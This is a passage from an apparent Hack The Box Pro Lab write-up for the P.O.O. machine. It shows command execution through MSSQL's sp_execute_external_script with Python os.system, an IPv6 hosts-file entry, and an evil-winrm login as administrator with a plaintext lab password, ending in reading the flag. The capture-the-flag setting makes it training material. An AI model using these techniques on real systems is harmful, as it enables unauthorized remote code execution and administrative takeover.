 I can establish a connection over WinRM using Evil-WinRM. To facilitate an IPv6 connection, I’ll add the IP address to my local `/etc/hosts` file. The hostname returned by the box is `COMPATIBILITY`:

```bash
SQL (df  dbo@master)> EXEC sp_execute_external_script @language =N'Python', @script = N'import os; os.system("hostname");';
INFO(COMPATIBILITY\POO_PUBLIC): Line 0: STDOUT message(s) from external script: 
COMPATIBILITY

Express Edition will continue to be enforced.

```

as seen below, we have added the IP to our `/etc/hosts/` file on our attacker machine.

```bash
127.0.0.1       localhost
127.0.1.1       v1c70r

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
10.129.141.23 unika.htb
10.129.3.186 thetoppers.htb
10.129.3.186 s3.thetoppers.htb
dead:beef::1001 COMPATIBILITY

```

Its time to connect to our comprised host as shown below.

```bash
┌──(root㉿v1c70r)-[/home/…/HTB Prolabs/P.O.O/web enum/IIS_shortname_Scanner]
└─#  evil-winrm -i compatibility -u administrator -p 'EverybodyWantsToWorkAtP.O.O.'

                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> 

```

It is time to get our foothold flag.

```bash
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls

    Directory: C:\Users\Administrator\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        3/26/2018   5:29 PM             37 flag.txt

*Evil-WinRM* PS C:\Users\Administrator\Desktop> type flag.txt
POO{[REDACTED]}
*Evil-WinRM* PS C:\Users\Administrator\Desktop> 

```
